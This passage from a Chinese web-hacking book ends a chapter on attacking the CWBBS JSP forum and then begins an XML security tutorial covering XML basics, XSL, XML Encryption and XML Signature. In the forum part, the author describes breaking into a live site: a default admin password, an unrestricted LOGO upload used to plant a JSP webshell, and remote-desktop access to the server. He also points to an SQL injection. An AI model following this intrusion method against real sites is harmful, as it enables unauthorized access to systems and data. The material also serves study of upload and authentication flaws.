不要以为这里就是在客户端验证了，这里用的是服务端验证。而且在验证上也没有漏洞，代码我已经分析过了，这里就不贴出来了。不过对于它我们仍然有办法突破，不过前提是必须进入后台。好在我运气好，居然遇到一个默认口令（用户名：admin，密码：111111）的网站，其后台地址为 `/cms/index.jsp`。

进入后台之后，“论坛管理”的“系统设置”下的“论坛配置”按钮就可以进入论坛的配置页面了，在这里可以设置上传文件的后缀名，我们要上传 JSP 木马，只需要往里面添加一个 `jsp` 后缀就可以搞定了，如图 14-35 所示。
图 14-35 往上传合法扩展名中添加 jsp

虽然上面的方法同样可以得到 webshell，但是感觉还是比较麻烦。第一种需要修改代码，而第二种条件则更加苛刻，需要进入后台。不过好在我还发现了另外一个更大的上传漏洞，下面我们就来分析分析。

CWBBS 有一个非常好的功能，就是支持插件。在系统默认情况下，论坛中自带了一个商店插件。利用这个插件，只要是会员都可以申请开一个店面用来做生意。在开店之前要给自己的店面填写一些资料，比如店名等等，如图 14-36 所示。不过这里因为没有过滤我们输入的数据，所以出现了跨站漏洞，如图 14-37 所示。
图 14-36 填写店面的信息
图 14-37 发生跨站

在店面中也提供了一个链接功能，上面还允许我们上传图片，我们来上传一个 JSP 文件后，马上返回错误提示，如图 14-38 所示。后来看了下处理代码，发现没什么问题，我们也无法突破。
图 14-38 上传错误

店面还提供了一个功能，就是 LOGO，也就是店面的图片标志。我们可以上传图片标识自己的店面，如图 14-39 所示。
图 14-39 上传 LOGO

我们先来看看系统是如何对上传的 LOGO 图片进行处理的。要完成对 LOGO 的上传用到了两个文件，一个是 `introduction.jsp`，另一个是 `introduction_logo.jsp`。先来看看 `introduction.jsp` 的处理代码，如下所示：

```html
<form name="form2" method="post" action="introduction_logo.jsp"
enctype="MULTIPART/FORM-DATA">
// LOGO 上传的表单，处理文件为 introduction_logo.jsp
<tr align="center" bgcolor="#F1EDF3">
    <td height="22" colspan="2">修改本店标志图片（LOGO）</td>
</tr>
<tr align="center" bgcolor="#FFFFFF">
    <td width="20%" height="22">选择</td>
    <td width="80%" height="22" align="left"><input type="file" name="filename">
        <input type="hidden" name="userName" value="<%=userName%>"></td>
</tr>
<tr align="center" bgcolor="#FFFFFF">
    <td height="22" colspan="2"><p>
<input type="submit" name="Submit" value=" 修改图片 ">
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<br>
（上传空文件将删除 LOGO，宽度可以通过上一个编辑框中的 LOGO 宽度来调整）</p>
    <p>
<%
```

```jsp
String img = as.getLogo();  // 获得上传的 LOGO
if (img != null && !img.equals("")) {
    // 如果 LOGO 不为空，且执行也不为空，则判断宽度
    String w = "";
    if (as.getLogoWidth() > as.LOGO_NO_WIDTH)
        w = "width=" + as.getLogoWidth();
%>
" <%=w%>>
<%}%>
// 这里为 LOGO 输出的路径
</p></td>
</tr>
</form>
```

introduction.jsp 文件的主要作用是判断上传 LOGO 的宽度以及 LOGO 输出的路径，下面来看看 introduction_logo.jsp 文件对上传的 LOGO 是如何处理的，如下所示：

```jsp
<jsp:useBean id="StrUtil" scope="page" class="cn.js.fan.util.StrUtil"/>
<jsp:useBean id="privilege" scope="page" class="com.redmoon.forum.Privilege"/>
<%
    if (!privilege.isUserLogin(request)) {
        out.print(StrUtil.makeErrMsg("请先登录！"));
        return;
    }           // 判断是否登录了

    AuctionShopMgr asm = new AuctionShopMgr();
    // 创建一个 asm 对象
    try {
        if (asm.modifyLogo(application, request))
            // 利用 asm 对象的 modifyLogo 方法执行从客户端获取的数据，并将它上传到服务器中
            out.print(StrUtil.Alert_Redirect("Logo 修改成功！",
"introduction.jsp?userName=" + StrUtil.UrlEncode(asm.getUserName())));
            // 如果上传成功，则输出“Logo 修改成功”并输出上传 LOGO 的路径
        else
            out.print(StrUtil.Alert_Back("Logo 修改失败！"));
            // 否则上传失败
    }
    catch (ErrMsgException e) {
        out.print(StrUtil.Alert_Back(e.getMessage()));
    }   // 输出发生异常的信息
%>


```

从上面代码我们可以知道，我们上传的 LOGO 只是在 introduction.jsp 判断一下宽度，然后就把 LOGO 传送到了 introduction_logo.jsp 中去了。不过在 introduction_logo.jsp 确没有对上传的 LOGO 做任何的处理，就直接把它上传到了服务器中。所以这里我们可以上传任何类型的文件。

因为是 JSP 网站，所以我这里上传一个 JSP 木马，不出所料，我们顺利地上传到了服务器中去了。上传之后显示图片是一个叉叉，我们点击右键就可以看到我们上传的木马路径了，如图 14-40 所示。打开就可以看到 JSP 木马已经在服务器中执行了，我们得到了一个 JSP 的 webshell，如图 14-41 所示。
图 14-40 上传 JSP 木马成功
图 14-41 得到的 JSP 的 webshell

这个网站的服务器的安全性实在做得差劲，我们可以浏览任何盘符，权限直接就是管理员，我们上传一个开 3389 的工具上去，用命令执行完毕后，我们连接远程主机的 3389，一下就登录了进去，如图 14-42 所示。
图 14-42 远程登录主机

#### 四、总结

上面就是我简单对 CWBBS 的分析过程，其安全性确实让人比较担心。上面我并没有提及注入漏洞，当然这并不代表不存在注入漏洞。而是注入漏洞隐藏得比较深，对于常见的参数，系统都已经进行了转换了，如对参数 ID 则全部强制转换成了整型，代码为 `id = ParamUtil.getInt(request, "id");`。所以当在参数 id 后添加一个单引号就会显示 id 不是整数的信息，如图 14-43 所示。
图 14-43 显示 id 不是整数

对于数字型注入，一个 getInt() 函数就全部给杜绝了，不过还有字符型的注入，比如在论坛注册时，验证那个用户名是否占用的程序，就没有对用户输入的参数进行转换，如下所示：

```java
String op = ParamUtil.get(request, "op");
// 获得客户端输入的数据
if (op.equals("chkRegName")) {   // 验证用户名是否被占用
    boolean re = false;
    try{
        String regName = ParamUtil.get(request, "RegName");
        // 获得我们输入的用户名
        re = userservice.isRegNameExist(request, regName);
        // 执行查询，看是否已经被占用
    }
    catch(cn.js.fan.util.ErrMsgException e) {
        out.print(e.getMessage());  // 发生异常就输出异常信息
%>
```

可以看到，我们输入的用户名没有过滤就被用去执行查询了，所以出现了典型注入漏洞。不过因为数据库查询操作被 JavaBean 给封装了，我们无法得到参数是如何处理的。所以要测试注入攻击比较难，也算是一个鸡肋级的漏洞。好在有一个上传漏洞让我们得到了 webshell。

对于分析系统漏洞，不仅仅只是局限于系统代码漏洞上的研究，同时也要利用服务器的各种不安全因素为自己的入侵创造出更多的有利条件。分析代码的时候思路一定要清晰，还要根据不同的环境为自己创造出更多有利条件。

**说明：** 非常感谢剑心优秀的 JSP 注入文章，同时我写的分析 CWBBS 的文章之前并未公开，所以在拿到书的时候还可以去测试一下。

你从本章可以学到如下几点：

- 1、XML 基础知识
- 2、XML 安全问题简介
- 3、基于 XML 后台数据库的系统安全浅析
- 4、Ajax 技术基础知识
- 5、Ajax 的十大安全问题
- 6、Ajax 蠕虫病毒分析

## 第十五章 Web 2.0 下的脚本黑客技术

前面的十几章基本上都是讲解 ASP、PHP、JSP 下的脚本黑客技术，这是目前脚本黑客技术的主流。当然，脚本黑客技术也不仅仅局限于这些上面，目前的脚本语言有几十种之多。不过随着技术的不断发展，很多脚本语言使用得并不太广泛了，如 CGI 等等。现在所有的脚本语言都基本上进入了 Web 2.0 的时代了，过不了几年 Web 2.0 可能就将统治整个脚本语言界了，必将成为下一个时代网页的主流。

目前 Web 2.0 下具有代表性的语言有 XML、Ajax 等等，目前它们技术也比较成熟了，越来越多的网站都采用了它们，Web 2.0 具有代表性的网站算是 myspace.com 了，大家可以去上面领略一下 Web 2.0 的网站。虽然 Web 2.0 非常好，可是一项技术的产生和普及都多少涉及到安全问题，那么本章就来谈谈 Web 2.0 下的安全性，以 XML 和 Ajax 为具体说明。

### 15.1 XML 的安全问题

XML 即为可扩展的标记语言（eXtensible Markup Language）。XML 是一套定义语义标记的规则，这些标记将文档分成许多部件并对这些部件加以标识。

XML 有两个先驱——SGML 和 HTML，这两个语言都是非常成功的标记语言，SGML 的全称是标准通用化标记语言，它从 80 年代初开始使用。正如 XML 一样，SGML 也可用于创建成千上万的标记语言，它为语法置标提供了异常强大的工具，同时具有极好的扩展性，因此在分类和索引数据中非常有用。

目前，SGML 多用于科技文献和政府办公文件中。SGML 非常复杂，其复杂程度对于网络上的日常应用简直不可思议。不仅如此，SGML 非常昂贵。

HTML 免费、简单，而且它获得了广泛的支持。它是一个非常简单的 SGML 语言，可以方便普通人使用。

于是人们开始致力于描述一个置标语言，它既具有 SGML 的强大功能和可扩展性，同时又具有 HTML 的简单性。这样 XML 语言就诞生了，它是目前基于 Web 开发使用得比较多的一种语言，它可以和其他脚本联合开发系统，通常 XML 是作为后台数据库而用，如 PHP+XML 等等，同时也是 Web 2.0 的重要组成部分。

#### 15.1.1 XML 基础

要谈 XML 安全问题，首先就得对 XML 这门语言有一定的了解，下面为大家介绍一些 XML 语句的基础知识。

XML 是标记语言。理解 XML，首先要理解标记。先说说 HTML 的标记（Markup），通俗地讲，它就是一种用来给文本添加标记的语言。在 HTML 里每个标记都是有确切含义的。例如，在 HTML 中，标签 `<b>` 的含义是要求 HTML 浏览器将一段文本加粗表示，而标签 `<center>` 的含义是告诉浏览器将这段文本在一行的中间显示。

而 XML 并非像 HTML 那样，提供了一组事先已经定义好了的标签，它只是提供了一个标准，利用这个标准，可以让我们根据实际需要定义自己的新的置标语言，并为这个新定义的置标语言规定它特有的一套标签。准确地说，XML 是一种元置标语言，它允许你根据它所提供的规则，制定自己需要的各种各样的置标语言。

上面对 XML 已经有了一定的认识了，那么 XML 可以用来做什么呢？XML 可用于各种不同的应用程序，但其实质上 XML 是一种表示数据的方式。有时候数据是为数据库准备的，有些时候则是供人阅读的。与这两方面应用相关的技术，比如数据验证和 XML 转换也已经随着 XML 自身一起发展起来。正因为 XML 是一种数据的表示方式，所以现在越来越多的系统采用 XML 作为后台数据库。

XML 包括验证或者确认的能力、文档结构和文档（在某种意义上的）内容。验证文档有助于防止数据与期望具有特定结构的应用程序进行交互时出现问题，当 XML 与非 XML 的遗留系统交互时这一点尤其有用。

我们还可以通过多种方式使用 XML 封装的数据。一种常见的处理方式是通过使用可扩展样式表语言转换（Extensible Stylesheet Language Transformations，XSLT），开发人员可以使用 XSLT 定义对 XML 文档的操作，以生成特定的结果。这种动态转换信息的能力允许从单个源文档产生多种输出，无论输出到不同的数据库还是输出到不同的浏览器。

XSL 格式化对象（XSL Formatting Objects，XSL-FO）是一种强大而灵活的格式化数据的 XML 词汇表，常与 XSLT 结合使用，把 XML 和 HTML 转化成 PDF（可移植文档格式）。对于 XML 的更多功能这里就不再多讲了，如果大家对 XML 感兴趣或者想分析 Web 2.0 安全，可以去系统性学习 XML，在光盘中已经为大家收集了比较好的 XML 书籍。

我们来看一个简单的 XML 文档，代码如下所示：

```xml
<?xml version="1.0" standalone="yes"?>
<FOO>
Hello XML!
</FOO>
```

第一行是 XML 声明：`<?xml version="1.0" standalone="yes"?>`。这是 XML 处理指令的例子，处理指令以 `<?` 开始，而以 `?>` 结束。在 `?` 后的第一个单词是处理指令名，在本例中是 xml。

XML 声明有 version 和 standalone 两个特性。特性是由等号分开的名称-数值对。位于等号左边的是特性名，而其值位于等号的右边，并用双引号括起来。每一个 XML 文档都以一个 XML 声明开始，用以指明所用的 XML 版本。在上例中，version 特性表明这个文档符合 XML 1.0 规范。XML 声明还可以有 standalone 特性，这告诉我们文档是否在这一个文件里，还是需要从外部导入文件。而 encoding 则是用于显示中文用的，将其值设为 gb2312，即 `encoding="gb2312"` 就可以显示中文了，否则显示乱码。

再来看看剩下三行。总体上说，这三行组成了 FOO 元素。分开说，`<FOO>` 是开始标记，而 `</FOO>` 是结束标记，Hello XML! 是 FOO 元素的内容。大家可能就会问，`<FOO>` 标记的意义是什么？回答是“你要让它是什么就是什么”。XML 除了几个预定义的标记之外，还允许我们创建自己所需的标记。因而 `<FOO>` 标记可以具有用户赋予的任何意义。同一个 XML 文档可以用不同的标记名编写，如：

```xml
<?xml version="1.0" standalone="yes"?>
<GREETING>
Hello XML!
</GREETING>
```

或者

```xml
<?xml version="1.0" standalone="yes"?>
<P>
Hello XML!
</P>


```

我们把上面的代码保存为 hello.xml，然后打开看看，发现 XML 和 HTML 一样可以在本地执行，并且不同的代码用不同的颜色表示，如 XML 声明和 `</` 及 `>` 用蓝色，而标签名用土黄色，内容则用黑色表示，如图 15-1 所示。
图 15-1 XML 执行后的结果

##### XML 标记的意义

标记有三类意义：结构、语义和样式。结构将文档分成元素树。语义将单个的元素与外部的实际事物联系起来，而样式指定如何显示元素。

结构只是表达文档的形式，而不管单个标记和元素间的差别。它们都指定文档具有一个非空的基本元素。标记的不同名称没有结构上的意义。语义的意义存在于文档之外，在作者的心中，或是读者，或是某些生成或读取这些文件的计算机程序中。例如，理解 HTML 但不理解 XML 的 Web 浏览器，可能会将段落的意义赋给 `<P>` 和 `</P>` 标记。讲英语的人可能会比 `<FOO>` 和 `</FOO>` 或 `<P>` 和 `</P>` 更容易理解 `<GREETING>` 和 `</GREETING>` 或是 `<DOCUMENT>` 和 `</DOCUMENT>` 的意义。

##### XML 文件的整体结构

xml 文件包括三部分：XML 声明、处理指示（可选）、XML 元素。XML 文档的一个基本要求是形式良好（well formed），一个形式良好的 XML 文档要包含这三个部分。下面是一个完整的 xml 文档（程序 1.1）：

```xml
<?xml version="1.0" encoding="gb2312" ?>
<?xml-stylesheet type="text/xsl" href="mystyle.xsl"?>
<学生花名册>
    <学生>
        <名字>土豆</名字>
        <籍贯>北京</籍贯>
        <年龄>32</年龄>
        <电话号码>123456789</电话号码>
    </学生>
    <学生>
      <名字>曾云好</名字>
      <籍贯>江西</籍贯>
      <年龄>20</年龄>
      <电话号码>123456789</电话号码>
    </学生>
</学生花名册>
```

##### 处理指示

处理指示是用来给处理 XML 文件的应用程序提供信息的。所有的处理指示应该遵循下面的格式：

`<?处理指示名 处理指示信息?>`

例如这个处理指示：

```xml
<?xml-stylesheet type="text/xsl" href="mystyle.xsl"?>
```

指定了 XML 文件配套使用的样式单类型为 xsl，文件名为 mystyle.xsl。

##### 字符数据与实体引用

一对标记之间出现的字符数据可以是任何合法的 UNICODE 字符，但不能包含字符 `<`。这是因为字符 `<` 被预留用作标记的开始符。

在 XML 中，起始和结束标记之间出现的所有合法字符都被忠实地传给 XML 处理程序。为了避免把字符数据和标记中需要用到的一些特殊符号相混淆，XML 还提供了一些有用的实体引用。实体引用的作用是：当在字符数据中需要使用这些特殊符号时，我们采用它的实体引用来代替。这些特殊的 XML 实体引用包括：

- `>`
- `<`
- `&`
- `“`
- `’`

这样，如果我们需要在“示例”这个标记中出现文本“`<姓名>张三</姓名>`”，正确的写法应该是：

```xml
<示例><姓名>张三</姓名></示例>
```

##### XML 文件的实质内容——元素

元素是 XML 文件内容的基本单元。从语法上讲，一个元素包含一个起始标记、一个结束标记以及标记之间的数据内容。其形式是：

```xml
<标记>数据内容</标记>
<标记1>数据内容1</标记1>
<标记2>数据内容2</标记2>
...
<标记n>数据内容n</标记n>
```

另外，元素中还可以再嵌套别的元素，比如数据内容可再扩展为上述形式。元素里还可以再嵌套元素，实现循环嵌套。最外层的元素称为根元素，一个 xml 文档只能有一个根元素。

##### 标记

正如我们所讲的那样，标记是 XML 语言的精髓。因此，标记在 XML 的元素中，乃至整个 XML 文件中，占了举足轻重的位置。XML 的标记和 HTML 的标记在样式上大体相同，除了注释和 CDATA 部分以外，所有符号 `<` 和符号 `>` 之间的内容都称为标记。其基本形式为：`<标记名 (属性名="属性取值")*>`。不过，XML 对于标记的语法规定可比 HTML 要严格得多。

- 1. 大小写有所区分。在标记中必须注意区分大小写。在 HTML 中，标记 `<HELLO>` 和 `<hello>` 是一回事，但在 XML 中，它们是两个截然不同的标记。
- 2. 要有正确的结束标记。结束标记除了要和开始标记在拼写和大小写上完全相同，还必须在前面加上一个斜杠 `/`。因此，如果开始标记是 `<HELLO>`，结束标记应该写作 `</HELLO>`。XML 严格要求标记配对，因此，HTML 中的 `<BR>`、`<HR>` 的元素形式在 XML 中是不合法的。不过，为了简便起见，当一对标记之间没有任何文本内容时，可以不写结束标记，而在开始标记的最后加以斜杠 `/` 来确认。这样的标记称为“空标记”。例如，HTML 中的标记 `<HR>` 在 XML 中的使用方式应该是：`<HR/>`。
- 3. 标记要正确嵌套。在一个 XML 元素中允许包含其他 XML 元素，但这些元素之间必须满足嵌套性。
- 4. 有效使用属性。最后要指出的是，标记中可以包含任意多个属性。在标记中，属性以名称/取值对出现，属性名不能重复，名称与取值之间用等号 `=` 分隔，且取值用引号引起来。例如：`<商品 类型="服装" 颜色="黄色">`。在这个例子中，“类型”和“颜色”是标记“商品”的属性，“服装”是属性“类型”的取值，“黄色”是属性“颜色”的取值。需要特别注意的是，在 XML 中属性的取值必须用引号引起来，而在 HTML 中这一点并不严格要求。

##### CDATA

前面我们说了，可以把 XML 文件中除标记以外的所有内容都看作是字符数据，而把标记中的所有内容都看作置标。不过，也有一个例外。在一个特殊的标记 CDATA 下，所有的标记、实体引用都被忽略，而被 XML 处理程序一视同仁地当作字符数据看待。CDATA 的形式如下：

```xml
<![CDATA[
  文本内容
]]>
```

爱动脑筋的朋友应该可以猜到，CDATA 的文本内容中是不能出现字符串 `]]>` 的，因为它代表了 CDATA 数据块的结束标志。在前面讲字符数据时，我们谈到过实体引用。可想而知，当你的文本数据中包含大量特殊符号时，你不得不通篇地使用实体引用，把本来很清晰的一……

一段文字搞得乱七八糟。例如，我们要在“示例”元素中放入一个这样的 XML 程序。

```xml
<联系人>
<姓名>曾云好</姓名>
<EMAIL>zengyunhao0@gmail.com</EMAIL>
</联系人>
```

这时，如果没有 CDATA，那么麻烦来了。这个元素需要写成下面的样子：

```xml
<示例>
    <联系人>
        <姓名>曾云好</姓名>
        <EMAIL>zengyunhao0@gmail.com</EMAIL>
    </联系人>
</示例>
```

要把所有的标记都用实体引用改写，最后写出来的东西连你自己都看不懂了。为了避免这种不便，你可以把这些字符数据放在一个 CDATA 数据块中，这样不管它看上去是一个标记还是一个实体引用，这些数据统统被当作字符照单全收。于是，上面的元素就可以写为这个样子：

```xml
<示例>
    <![CDATA[
        <联系人>
        <姓名>曾云好</姓名>
        <EMAIL>zengyunhao0@gmail.com</EMAIL>
        </联系人>
    ]]>
</示例>


```

这样程序看起来就舒服多了，运行的结果如图 15-2 所示。
图 15-2 CDATA 的作用

在 HTML 中，注释是用 `"<!--"` 和 `"-->"` 引起来的。在 XML 中，注释的方法完全相同。

##### 名称空间

XML 的用途不是单一的。可能你看到编写只使用一个标记符号集的文档是相当有用的。但是，问题是，当混杂和匹配不同的 XML 应用程序的标记时，你可能会发现同一个标记已用于两个不同对象。TITLE 是指页标题还是书的标题？ADDRESS 是指公司的邮件地址还是 Web 站点管理员的电子邮件地址？名称空间（namespace）可以解决这些诸如此类的问题，它是将 URI 与各标记集相关联，并在每个元素前加上一个前缀，以表示它属于哪个标记集。于是，就可以有 BOOK:TITLE 和 HTML:TITLE 两个元素，或 POSTAL:ADDRESS 和 HTML:ADDRESS 元素，而不只一类 TITLE 或 ADDRESS。名称空间允许文档中的每个元素和特性放在不同的命名域中。

##### URI 和 URL

XML 文档可用于 Web，正如 HTML 和其他文档一样。使用时，也如 HTML 文档一样，被统一资源定位符（Uniform Resource Locator，简写为 URL）所引用。虽然 URL 已被人们广泛理解并被广泛支持，但 XML 规范使用的是更为通用的统一资源标识符（Uniform Resource Identifier，简写为 URI）。URI 对于定位 Internet 上的资源是更为通用的架构，更为注重资源而不太注重位置。理论上说，URI 可找出镜像文档的最为近似的副本，或是找出已经从一个站点移动到另一站点的文档。实际上，URI 仍然处于进一步的研究之中，被当前的软件所唯一支持的一种 URI 正是 URL。

##### 用 xmlns 声明名称空间

这是一个声明名称空间的例子：`xmlns:xsl="http://www.w3.org/TR/WD-xsl"`。`"http://www.w3.org/TR/WD-xsl"` 是一个 URI 引用。URI 为统一资源标识符（Uniform Resource Identifier，简写为 URI）。URI 对于定位 Internet 上的资源是更为通用的架构，更为注重资源而不太注重位置。不过当前的软件所唯一支持的一种 URI 正是 URL。要注意的是这里用 URI 只是为了声明一个唯一的名称空间，并不是真的上 www.w3.org 的网站去寻找这个链接。xsl 表明以后如果用到以 xsl 为前缀的名字，那么它所表示的规则是在名称空间里预先定义好的，如 `xsl:value-of` 在 `"http://www.w3.org/TR/WD-xsl"` 这个名称空间预置的，它的意义是求值。

##### XSL

XSL（Extensible Stylesheet Language）是指可扩展样式表语言。XSL 之于 XML 就像 CSS 之于 HTML。说白了就是将 XML 中的数据用指定的显示格式输出。XML 不像 HTML，它不包含任何显示格式的信息。XSL 包含两个部分：

- XSLT - 用于转换 XML 文档的语言，XSLT 是指 XSL 转换（XSL Transformation）
- XPath - 用于在 XML 文档中导航的语言

##### XSL 语法

任何 XSL 文档的第一行实际上都是 XML 声明：

```xml
<?xml version="1.0" encoding="GB2312"?>
```

XSL 与 XML 一样遵循相同的语法规则。在 XML 声明之后，就是 XSL 声明，例如：

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
......
</xsl:stylesheet>
```

XSL 声明必须要有结束标签，上面的声明中还包含命名空间和 XSL 规范的版本。

##### 模板或规则

XSL 文档是由模板或规则构成，每个模板定义应用于特定 XML 节点的规则。XSL 模板如下所示：

```xml
<xsl:template match="/">.....</xsl:template>
```

模板的作用是用来承载 XML 文档中的数据的，就像一个模具，如果这个模具是方形的，那么用这个模具做出来的模型也一定是方形的，而 XML 文档中的数据就是用来填充模具的原料。实际上在模板中可以嵌套子模板，但最上层模板必须将 `match` 设为 `/`。

##### 循环构造

```xml
<xsl:for-each select="...">......</xsl:for-each>
```

与典型的 for 循环作用相同。

我们还可以在 XML 文件中引用 XSL 文件，例如 hello.xml 和 hello.xsl 都是在同一个文件夹下，那么我们要在 hello.xml 中引用 hello.xsl 文件，只需要编写 `<?xml-stylesheet type="text/xsl" href="hello.xsl"?>` 即可完成。

对于 XML 的基础知识，我就介绍到这里了。相信通过上面的学习，能够对 XML 有一个基本的了解。当然，要进行 XML 开发的话，就远远不够了，XML 更多的内容可以去看光盘中的电子书。下面我们来谈谈 XML 的安全问题。

#### 15.1.2 XML 安全简介

通过上一节中 XML 的两幅图片，大家应该可以看到，对于 XML 文件我们只要打开了就能够看到该文件中的内容。如果网络上的所有 XML 文件都是这样的话，那 XML 就几乎没有任何安全性可言了，例如采用 XML 作为后台数据库的网站，如果我们打开了该 XML 文件，那不是所有的用户信息都被看完了。

目前，在与 XML 相关的安全性领域方面开发规范的最常用的部分是 XML 加密、XML 签名等技术，下面我们就来介绍一下这两个方面。

##### （1）XML 加密

现在安全性要求稍微高一些的网站都会采用加密技术，如安全套接字层（Secure Sockets Layer, SSL），也就是使用了 https 协议的网站。对于 XML 语言，它本身提供了一个 XML 加密的标准（XML Encryption）。

XML 加密的首要目标是：

- 支持对任意数字内容的加密，包括 XML 文档。
- 确保经过加密的数据不管是在传输过程中还是在存储时，都不能被未经授权的人员访问到。
- 即便在消息传送中的每一跳，都能维持数据的安全性——这句话的意思是，不仅数据正在传输的过程中要保证安全性（这就是 SSL 所作出的保证），当数据在某个特定的节点停留的时候，也要保证其安全性。
- 以 XML 形式表现被加密的数据。
- 可以从 XML 文档中选出一部分内容进行加密。

我们拿这个目标与基于 HTTP 的 SSL（又称 HTTPS）必须提供的功能进行比较。如果使用基于 HTTP 的 SSL，整条消息都会被加密；在第一个目的地，整条消息又被解密，在它被重新全部加密传输到第二跳的节点之前，可能受到嗅探器的威胁。基于 HTTP 的 SSL 提供的加密仅仅在传输的过程中存在，它是不持久的。

与其他任何文档一样，可以将 XML 文档整篇加密，然后安全地发送给一个或多个接收方。例如，这是 SSL 或 TLS 的常见功能，但是更令人感兴趣的是如何对同一文档的不同部分进行不同处理的情况。

XML 加密语法的核心元素是 EncryptedData 元素，该元素与 EncryptedKey 元素一起用来将加密密钥从发起方传送到已知的接收方，EncryptedData 是从 EncryptedType 抽象类型派生的。要加密的数据可以是任意数据、XML 文档、XML 元素或 XML 元素内容；加密数据的结果是一个包含或引用密码数据的 XML 加密元素。当加密元素或元素内容时，EncryptedData 元素替换 XML 文档加密版本中的该元素或内容。当加密的是任意数据时，EncryptedData 元素可能成为新 XML 文档的根，或者可能成为一个子代元素。当加密整个 XML 文档时，EncryptedData 元素可能成为新文档的根。此外，EncryptedData 不能是另一个 EncryptedData 元素的父代或子代元素，但是实际加密的数据可以是包括现有 EncryptedData 或 EncryptedKey 元素的任何内容。

XML 加密可以根据不同的需求进行不同的加密，如对 XML 文档全部加密或只对其中的部分元素及内容加密等等。下面的代码显示的是我的银行账户、5000 人民币限额、卡号和有效期的信息：

```xml
<?xml version="1.0" encoding="gb2312"?>
<PaymentInfo xmlns='http://example.org/paymentv2'>
  <Name>曾云好</Name>
  <CreditCard Limit='5,000' Currency='USD'>
    <Number>4019 2445 0277 5567</Number>
    <Issuer>Bank of the Internet</Issuer>
    <Expiration>08/02</Expiration>
  </CreditCard>
</PaymentInfo>
```

上面的代码是一个完整的 XML 文档，是没有加密的。对于银行账号，要在互联网上传输肯定要加密的。不过我们有很多种加密方法，比如加密整个文档的所有内容，加密后代码如下所示：

```xml
<?xml version="1.0" encoding="gb2312"?>
<EncryptedData xmlns='http://www.w3.org/2001/04/xmlenc#'
  Type='http://www.isi.edu/in-notes/iana/assignments/media-types/text/xml'>
  <CipherData><CipherValue>A23B45C56</CipherValue></CipherData>
</EncryptedData>
```

我们还可以只加密我们的银行账号，其他的都是以原文在互联网上传输，加密后代码如下所示：

```xml
<?xml version="1.0" encoding="gb2312"?>
<PaymentInfo xmlns='http://example.org/paymentv2'>
  <Name>曾云好</Name>
  <CreditCard Limit='5,000' Currency='USD'>
    <Number>
      <EncryptedData xmlns='http://www.w3.org/2001/04/xmlenc#'
          Type='http://www.w3.org/2001/04/xmlenc#Content'>
          <CipherData><CipherValue>A23B45C56</CipherValue></CipherData>
      </EncryptedData>
    </Number>
    <Issuer>Bank of the Internet</Issuer>
    <Expiration>04/02</Expiration>
  </CreditCard>
</PaymentInfo>
```

当然，还可以加密除了我用户名之外的任何数据，加密后的代码如下所示：

```xml
<?xml version="1.0" encoding="gb2312"?>
<PaymentInfo xmlns='http://example.org/paymentv2'>
    <Name>John Smith</Name>
    <EncryptedData Type='http://www.w3.org/2001/04/xmlenc#Element'
        xmlns='http://www.w3.org/2001/04/xmlenc#'>
        <CipherData><CipherValue>A23B45C56</CipherValue></CipherData>
    </EncryptedData>
</PaymentInfo>
```

对于加密大家应该感到了 XML 的强大性了吧，完全可以按照我自己的意愿来进行加密。

当然加密也不是如此简单，密码学是一门非常深奥的学科，大家有机会可以去学习学习，如 RSA 等等。正因为有了加密使得 XML 文档的内容不被人给查看了，从而确定了文档本身内容的安全性。但是仅仅只做加密还是不够的。如在网络上传送时，被加密的文档是否被人给替换了等等情况，所以下一小节就来介绍数字签名，它可以很好地解决这些问题。

##### （2）XML 签名

签名十分重要，因为它可以提供端到端的消息完整性保证，还可以提供有关消息发件人的验证信息。为了达到较好的效果，签名必须是应用程序数据的一部分，这样可以在创建消息时生成签名，并可以在最终使用和处理消息时对签名进行验证。

XML 签名可以定义一系列 XML 元素，这些元素可以内嵌或以其他方式附加在任何 XML 文档中。这样，收件人可以验证收到的消息与发件人原本发送的消息是否相同。

XML 签名可以用于对包括 XML 文档在内的任何数字内容进行签名。对数字内容进行签名的过程分为两个阶段。在第一阶段中，对数字内容进行整理，得到的结果放在一个 XML 元素中。第二阶段挑选出经过整理的值，并对其进行签名。这样做的原因非常简单：对原始内容进行整理之后，可以得到一个很小的但是唯一的加密结果（称为摘要），这样比对原始内容进行签名花费的时间少。

当 XML（或其中的一部分）经过数字签名之后，得到的 XML 签名用一个 XML 元素表现出来，这个元素的标识是 `<Signature>`，最初的内容与这个数字签名的关系基于下面几种 XML 签名类型：

- 封外签名（Enveloping signature）：`<Signature>` 元素中包含了进行数字签名的元素。被签名的元素成为了 `<Signature>` 元素的子元素。
- 封内签名（Enveloped signature）：`<Signature>` 元素成为被签名数据的子元素。`<Signature>` 元素通过它其中的 `<Reference>` 元素提供的信息引用被签名的元素。
- 分离签名（Detached signature）：`<Signature>` 元素与被签名的元素各自独立存在。被签名的元素和 `<Signature>` 元素可以同属于一个文档，或者，`<Signature>` 元素也可以在另一个完全不同的文档中。

XML 签名的语法和处理规范（本文中缩写为 XML DSIG）是由 W3C 和 IETF 联合制定的。XML DSIG 可以提供完整性，并可用于进行发件人验证。下面我们来简单介绍下 XML DSIG，不过介绍之前，大家还需要对一些基本的密码学算法有一定的认识。所以先来谈谈这些算法，不会太难的。

数字签名对某些内容提供完整性检查。如果原始内容的某个字节已经被修改，例如我在我的银行存款后多加了个零，或者“否”改成了“是”等等，那么签名验证将失败。

我们来看看这个原理：首先我们需要一个“散列”消息。加密散列使用的是任意字节流，之后将其转换为某个固定长度的值，这个值称为“摘要”。摘要是一个单向过程：从计算角度来说，无法通过散列重新创建消息，也不可能找到可以产生相同摘要值的两封不同消息，即具有不可逆性。

最常用的散列机制是 SHA1，即“安全散列算法”。它是于 1995 年作为标准发布，该算法由美国政府创建。SHA1 可以处理 2**64 字节以内的任何消息，并生成一个 20 字节的结果。这意味着将有 2**160 个可能的摘要值，所以几乎不可能出现两个相同的摘要值。

如果我生成消息是 M 并创建摘要（用 H(M) 代表 “M 的散列”），那么你将收到 M 和 H(M)，你可以创建自己的摘要 H’(M)，如果两个摘要值匹配，表明你收到了我发送的消息。要保护 M 使其不被修改，我只需要保护 H(M)，使它不被修改。

那么如何保护我们的 H(M) 呢？一般有两种办法：

第一种是共享密钥混合在摘要中，即创建 H(S+M)。您收到消息后，可以使用自己的 S 副本来创建 H’(S+M)。新的摘要称为 HMAC，即“散列后的消息验证码”（Hashed Message Authentication Code）。在使用 HMAC 时，完整性保护的有效性取决于攻击者计算出 S 的能力。因此，S 应该不容易被猜出，并应该经常更改 S。
